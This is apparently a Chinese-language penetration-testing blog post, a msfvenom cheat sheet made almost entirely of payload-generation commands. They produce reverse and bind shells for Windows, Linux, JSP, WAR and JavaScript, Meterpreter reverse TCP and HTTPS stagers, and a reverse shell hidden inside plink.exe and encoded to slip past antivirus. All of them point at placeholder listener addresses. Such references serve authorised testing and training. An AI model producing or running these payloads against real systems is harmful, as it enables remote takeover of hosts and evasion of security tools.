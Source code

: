 ```yaml
---
layout:     post
title:      MSFVENOM SHELLCODE生成
subtitle:   MSFVENOM 生成 SHELLCODE
date:       2019-04-26
author:     BY
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - msf
    - 渗透测试
---
```



# MSFVENOM SHELLCODE生成

## 通用Shellcode

```
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e generic/none
```

## Windows反向TCP Shell（Shellcode x86）

如果有效负载大小没有问题并且您不能确定错误的字符，请仅使用此代码：

```
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"
```

## 嵌入在“ plink.exe”中的Windows反向TCP Shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o burmat_embedded.exe
```

## 绑定Shell Shellcode

我不经常使用绑定外壳，但是有时打开端口比发出反向连接更容易：

```
msfvenom -p windows/shell_bind_tcp RHOST=10.11.11.11 LPORT=1337 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f python
```

# 反向壳

奇形怪状的反向弹壳会使您绊倒。那些“等等，我以前做过吗？” 片刻。就像当您看到Tomcat以默认凭据或ColdFusion站点运行时（操我...）

## JSP反向外壳

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw -o burmat.jsp
```

## JavaScript反向Shell

如果要攻击Windows主机：

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f js_le -e generic/none
```

如果要攻击Linux主机：

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 CMD=/bin/bash -f js_le -e generic/none
```

## WAR（Java）反向外壳

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f war -o burmat.war
```

# 仪表反向有效载荷：

不要只是复制和粘贴-学习和理解语法。这些都是针对x86机器的，因此只需将其交换到x64即可满足您的需求。

## Windows Meterpreter有效负载

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -o burmat.exe
```

## Windows Meterpreter反向HTTPS有效负载（x86）

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -e x86/shikata_ga_nai -b '\x00' -f exe -o burmat.exe
```

## Linux Meterpreter Stager

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.15.11 LPORT=443 -f elf -o burmat
```
